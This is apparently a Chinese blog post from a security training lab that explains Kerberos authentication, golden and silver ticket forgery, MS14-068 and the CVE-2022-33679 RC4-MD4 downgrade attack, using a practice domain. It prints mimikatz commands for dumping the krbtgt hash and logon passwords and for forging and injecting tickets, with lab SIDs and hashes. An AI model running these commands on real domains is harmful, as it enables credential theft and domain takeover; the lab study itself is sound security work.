# 域 0day-(CVE-2022-33679)容易利用吗 - 合天网安实验室 - 博客园

> 原文：[`www.cnblogs.com/hetianlab/p/16985385.html`](https://www.cnblogs.com/hetianlab/p/16985385.html)

# 前言

最近 twitter 上关于 CVE，应该是 CVE-2022-33679 比较火了，但是资料也是比较少，下面来唠唠吧。

## kerberos 认证原理

先了解几个概念

认证服务(Authentication server）:简称 AS,认证客户端身份提供认证服务。

域控服务器(Domain Control）:即 DC。

服务票据(Server Ticket):简称 ST，在 Kerberos 认证中，客户端请求的服务通过 ST 票据认证。

票据授予服务(Ticket Granting server）:简称 TGS，颁发服务票据(server ticket)。

活动目录(Active Directory)：简称 AD,包含了域中所有的对象(用户，计算机，组等)

KDC 密钥颁发中心（KDC）：域控担任

特权属性证书(Privilege Attribute Certificate):简称 PAC，所包含的是各种授权信息, 例如用户所属的用户组, 用户所具有的权限等。

下图为 Kerberos 的认证过程：


一个完整的认证流程基本上分为 8 个步骤

1.客户端用户向 KDC 发送请求，包含用户名，主机名和时间戳。AS 接收请求

2.AS 对客户端用户身份认证后给客户端返回票据授予票据

3.客户端使用 TGT 到票据分发服务(TGS)请求访问服务器 A 的服务票据(ST)

4.TGS 给客户端分发 ST

5.客户端使用 ST 请求服务器 A

6.服务器 A 解密 ST 票据得到特权属性证书 PAC,服务器 A 请求域控 AD 需确认用户权限

7.域控将 PAC 解密获取用户 SID 和用户权限的结果返回给服务器 A

8.用户身份符合则进行第最后的返回信息，整个 Kerberos 认证结束。

## 黄金票据

原理：

Kerberos 黄金票据是有效的 TGT Kerberos 票据，是由域 Kerberos 帐户加密和签名的 。TGT 仅用于向域控制器上的 KDC 服务证明用户已被其他域控制器认证。TGT 被 KRBTGT 密码散列加密并且可以被域中的任何 KDC 服务解密的。

相当于跳过上面图片中过的步骤一和步骤二，直接伪造 TGT



### 实验

这里利用星海安全实验室的靶场环境

环境：192.168.10.10 域控 DC 域：Starseaseclab.com 操作系统：win-server2012R2

域内主机：192.168.10.14 操作系统：win7

使用条件：

域管 SID

域名

域控 KRBTGT 账号的 HASHntlm(hash)

【----帮助网安学习，以下所有学习资料免费领！加 vx：yj009991，备注 “博客园” 获取！】

　① 网安学习成长路径思维导图
　② 60+网安经典常用工具包
　③ 100+SRC 漏洞分析报告
　④ 150+网安攻防实战技术电子书
　⑤ 最权威 CISSP 认证考试指南+题库
　⑥ 超 1800 页 CTF 实战技巧手册
　⑦ 最新网安大厂面试题合集（含答案）
　⑧ APP 客户端安全检测指南（安卓+IOS）

> whoami /all



> lsadump::dcsync /domain:starseaseclab.com /user:krbtgt



sid:S-1-5-21-1719736279-3906200060-616816393

htlm(hash):5e31f755b33b621bede0946b044908e4

domian:starseaseclab.com

域内主机 win-7



```
privilege::debug
​
kerberos::purge //清空票据防止缓存影响
​
Kerberos::golden /user:administrator /domain:starseaseclab.com /sid:S-1-5-21-1719736279-3906200060-616816393 /krbtgt:5e31f755b33b621bede0946b044908e4  /ptt    //伪造金票注入内存
```



## 白银票据

原理

黄金票据是伪造 TGT,在 kerberos 认证中忽略前两步，白银票据就是直接伪造 ST



> whoami /all


sid: S-1-5-21-1719736279-3906200060-616816393

> sekurlsa::logonpasswords



伪造票据

> Kerberos::golden /domain:starseaseclab.com /sid:S-1-5-21-1719736279-3906200060-616816393 /target:win-dc.starseaseclab.com /service:cifs /rc4:161cff084477fe596a5db81874498a24 /user:user1 /ptt //伪造银票注入内存


利用 MS14-068(CVE-2016-6324)

域内用户提升至域控

条件 ：

域内用户名以及 hash

sid 值

域名

域控 ip

```
 ms-14-068.exe -u   域用户@域名  -p 域用户密码 -s 域用户 sid -d 域控 ip
 kerberos::ptc "票据"   //将票据注入内存
```

### 黄金票据和白银票据的区别

```
访问权限不同：
​
Golden Ticket：伪造 TGT，可以获取任何 Kerberos 服务权限
Silver Ticket：伪造 TGS，只能访问指定的服务
​
加密方式不同：
​
Golden Ticket 由 Kerberos 的 Hash 加密
Silver Ticket 由服务账号（通常为计算机账户）Hash 加密
​
认证流程不同：
Golden Ticket 的利用过程需要访问域控，
Silver Ticket 不需要
```

## CVE-2022-33679

攻击的过程分为下面几个步骤

1.  攻击者发送一个没有预授权的 AS-REQ 请求 RC4-MD4 密钥加密。如果用户不需要预授权，KDC 将发回一个 AS-REP，其中包含使用 RC4-MD4 加密的会话密钥等。

2.  根据加密数据的长度，计算出加密密钥开始前的 0x15 字节，只要总长度就可以猜到。可能需要发送适当长的主机地址来填充 ASN1 编码数据，以便将密钥对齐到合适的位置。

3.  根据计算出的 ASN1 数据和加密后的 KDC-REP 生成密钥流的前 0x2D 字节（密文中前 0x18 字节全为 0）。

4.  使用密钥流加密 PA-ENC-TIMESTAMP 预认证缓冲区，如果仅使用 KerberosTime，则大小将恰好为 0x15 字节，即带有初始填充的 0x2D。

5.  在新的 AS-REQ 中发送加密的时间戳以验证密钥流是否正确。

如果将客户端和 KDC 降级为使用 RC4-MD4，攻击者可以让 KDC 使用 RC4-MD4 会话密钥作为初始 TGT，它只有 40 位的熵，并且在关联的票证过期之前实现暴力破解，可为该用户发出任意服务票证的 TGS 请求。

攻击图解

在请求 TGT 的第一阶段爆破第一个字节的图解



获取最后一个字节的过程图解


CVE 提交者的 POC 显示已删除，github 上披露的 EXP 已经没了。



项目下载地址：

```
https://github.com/GhostPack/Rubeus
```

需要重新编译一下，**Rubeus**的 V2.1.2 实际上也没找到历史发布版本，目前最新版本未 V2.2.1



该版本无法使用 cve-2022-33679 伪造 TGT。该漏洞就利用方式来说跟黄金票据有点儿类似，通过 EXP 绕过 Kerberos 认证协议中的第一和第二步骤，直接向 TGS 请求 ST。



# 总结

资料还是有限，没有复现成功，但是就原理来说，结合 Kerberos 认证原理还是比较清晰。CVE-2022-33679 的使用也是有使用条件，需要设置“不需要 Kerberos 预身份验证”用户帐户控制标志，并配置了 RC4 密钥。所以在利用手段上来讲应该是比较苛刻。（如有错误还请各位指出）

******更多靶场实验练习、网安学习资料，[请点击这里>>](https://www.hetianlab.com/)******